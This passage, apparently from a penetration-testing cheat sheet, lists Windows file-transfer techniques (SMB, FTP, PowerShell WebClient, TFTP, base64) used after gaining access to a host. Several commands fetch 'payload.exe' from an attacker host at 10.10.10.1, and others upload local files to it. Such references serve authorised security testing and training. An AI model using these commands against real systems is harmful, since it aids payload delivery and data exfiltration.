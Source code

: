 ### Create SMB Server (Impacket on Attacker)
```bash
# Create SMB server on attacker machine
impacket-smbserver share -smb2support /path/to/files
```

## FTP Transfers

### Command Line FTP
```cmd
:: Create FTP script
echo open 10.10.10.1 21 > ftp.txt
echo user anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo binary >> ftp.txt
echo get payload.exe >> ftp.txt
echo bye >> ftp.txt

:: Run FTP with script
ftp -s:ftp.txt
```

### PowerShell FTP
```powershell
# FTP upload with PowerShell
$client = New-Object System.Net.WebClient
$client.Credentials = New-Object System.Net.NetworkCredential("anonymous", "anonymous")
$client.UploadFile("ftp://10.10.10.1/upload/data.txt", "C:\Windows\Temp\data.txt")

# FTP download with PowerShell
$client.DownloadFile("ftp://10.10.10.1/payload.exe", "C:\Windows\Temp\payload.exe")
```

## TFTP Transfers (Windows 7/Server 2008)

```cmd
:: Install TFTP client if needed
pkgmgr /iu:"TFTP"

:: Download file
tftp -i 10.10.10.1 GET payload.exe

:: Upload file
tftp -i 10.10.10.1 PUT C:\Windows\Temp\data.txt
```

## Base64 Encoding/Decoding

```powershell
# PowerShell - Encode file to Base64
[Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\data.exe")) | Out-File -Encoding ASCII data.b64

# PowerShell - Decode Base64 to file
$content = Get-Content -Path "data.b64"
[System.IO.File]::WriteAllBytes("C:\Windows\Temp\data.exe", [Convert]::FromBase64String($content))
```
